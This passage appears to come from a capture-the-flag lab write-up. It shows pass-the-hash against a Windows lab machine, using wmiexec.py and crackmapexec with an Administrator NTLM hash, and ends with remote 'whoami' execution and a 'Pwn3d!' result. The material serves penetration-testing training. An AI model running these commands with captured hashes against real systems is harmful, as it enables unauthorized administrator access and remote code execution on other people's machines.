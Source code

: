 
wmiexec.py WORKGROUP/Administrator@10.10.10.125 -hashes :2dcefe78334b42c0ce483b8e1b2886ab

#or with crackmapexec, we dont need the password since we have the hash. Here we added -x flag to execute the command in cmd and -X to execute in PS.

crackmapexec smb 10.10.10.125 -u 'Administrator' -H '2dcefe78334b42c0ce483b8e1b2886ab' -d WORKGROUP -x 'whoami'
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:2dcefe78334b42c0ce483b8e1b2886ab (Pwn3d!)
SMB         10.10.10.125    445    QUERIER          [+] Executed command 
SMB         10.10.10.125    445    QUERIER          querier\administrator

crackmapexec smb 10.10.10.125 -u 'Administrator' -H '2dcefe78334b42c0ce483b8e1b2886ab' -d WORKGROUP -X 'whoami'
